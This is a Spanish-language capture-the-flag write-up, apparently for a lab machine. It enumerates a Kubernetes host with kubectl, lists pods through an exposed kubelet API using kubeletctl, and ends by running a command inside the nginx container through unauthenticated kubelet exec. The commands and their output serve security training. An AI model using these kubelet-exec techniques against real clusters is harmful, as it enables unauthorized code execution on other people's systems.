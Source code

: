 Como se está usando el tema de kubernetes, se procede a instalar la herramienta con el siguiente comando:

```
sudo snap install kubectl --classic
```

Al tenerlo instalado, se procede a validar si permite el usuario anonymous, pidiendole que nos traiga información del cluster.
Pero como se puede observar no trae información.

```js
kubectl --server https://10.10.11.133:8443 cluster-info
Please enter Username: anonymous
Please enter Password: 
To further debug and diagnose cluster problems, use 'kubectl cluster-info dump'.
Unable to connect to the server: x509: certificate signed by unknown authority
```

Actualmente en github se encuentra una herramienta llamada Kubeletctl, esta se puede encontrar en el siguiente repositorio. [GitHub/Kubeletctl](https://github.com/cyberark/kubeletctl).

```
				¿Para qué sirve esta herramienta?

Es una herramienta de línea de comandos que implementa la API de kubelet. Esta herramienta cubre 
todas las APIs documentadas y no documentadas.
```
Al tenerla instalada se procede a mandarle el siguiente comando para ver si no puedes traer alguna información del kubernetes montado en el servidor.

```js
kubeletctl pods -s 10.10.11.133
```

```js
pods: Nos muestra los procesos que están corriendo en el cluster.
-s: Se le indica la dirección IP.
```

Al mandar el anterior comando vemos que nos trae la siguiente información. Lo más importante a recalcar es que hay un POD:Ningx que esta como por defecto en el sistema.

```js
kubeletctl pods -s 10.10.11.133

|POD          	      |NAMESPACE          | Containers 		|
|:--------------------|:------------------|:--------------------|
|storage-provisioner  |kube-system        |storage-provisioner  |
|kube-proxy-9656b     |kube-system        |kube-proxy           |
|nginx                |default            |nginx                |
```

Al saber que hay un POD llamado **nginx** y que está por defecto en el sistema, se podría con la misma herramienta **kubeletctl** ejecutar comandos dentro del servidor, esto
se puede realizar de la siguiente forma.

```js
kubeletctl -s 10.10.11.133 exec "id" -p nginx -c nginx
```
